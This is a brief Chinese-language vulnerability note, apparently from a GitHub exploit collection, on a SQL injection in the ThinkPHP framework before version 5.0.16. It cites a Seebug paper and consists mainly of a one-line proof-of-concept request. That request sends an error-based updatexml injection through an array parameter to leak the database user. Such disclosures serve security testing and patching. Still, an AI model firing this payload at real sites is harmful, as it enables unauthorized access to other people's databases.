 ## Thinkphp框架 < 5.0.16 存在sql注入

* https://paper.seebug.org/564/

-------------
### 　poc

`ip/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1`

